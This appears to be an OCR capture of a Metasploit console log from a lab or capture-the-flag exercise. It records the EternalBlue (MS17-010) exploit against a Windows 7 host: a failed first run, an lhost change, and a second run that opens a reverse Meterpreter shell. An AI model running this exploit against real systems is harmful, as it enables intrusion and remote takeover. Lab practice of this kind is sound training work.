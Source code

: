 [+] 10.201.21.43:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.201.21.43:445 - CORE raw buffer dump (42 bytes)
[*] 10.201.21.43:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.201.21.43:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.201.21.43:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1  
[+] 10.201.21.43:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.201.21.43:445 - Trying exploit with 22 Groom Allocations.
[*] 10.201.21.43:445 - Sending all but last fragment of exploit packet
[*] 10.201.21.43:445 - Starting non-paged pool grooming
[+] 10.201.21.43:445 - Sending SMBv2 buffers
[+] 10.201.21.43:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.201.21.43:445 - Sending final SMBv2 buffers.
[*] 10.201.21.43:445 - Sending last fragment of exploit packet!
[*] 10.201.21.43:445 - Receiving response from exploit packet
[+] 10.201.21.43:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.201.21.43:445 - Sending egg to corrupted connection.
[*] 10.201.21.43:445 - Triggering free of corrupted buffer.
[-] 10.201.21.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.21.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.21.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Exploit completed, but no session was created.
msf exploit(windows/smb/ms17_010_eternalblue) >

# fail

# set lhost tun0

lhost => tun0
msf exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 10.8.136.212:4444
[*] 10.201.21.43:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.201.21.43:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.201.21.43:445 - Scanned 1 of 1 hosts (100% complete)
[+] 10.201.21.43:445 - The target is vulnerable.
[*] 10.201.21.43:445 - Connecting to target for exploitation.
[+] 10.201.21.43:445 - Connection established for exploitation.
[+] 10.201.21.43:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.201.21.43:445 - CORE raw buffer dump (42 bytes)
[*] 10.201.21.43:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.201.21.43:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.201.21.43:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1  
[+] 10.201.21.43:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.201.21.43:445 - Trying exploit with 12 Groom Allocations.
[*] 10.201.21.43:445 - Sending all but last fragment of exploit packet
[*] 10.201.21.43:445 - Starting non-paged pool grooming
[+] 10.201.21.43:445 - Sending SMBv2 buffers
[+] 10.201.21.43:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.201.21.43:445 - Sending final SMBv2 buffers.
[*] 10.201.21.43:445 - Sending last fragment of exploit packet!
[*] 10.201.21.43:445 - Receiving response from exploit packet
[+] 10.201.21.43:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.201.21.43:445 - Sending egg to corrupted connection.
[*] 10.201.21.43:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 10.201.21.43
[+] 10.201.21.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.201.21.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.201.21.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 1 opened (10.8.136.212:4444 -> 10.201.21.43:49193) at 2025-09-16 14:41:45 +0000
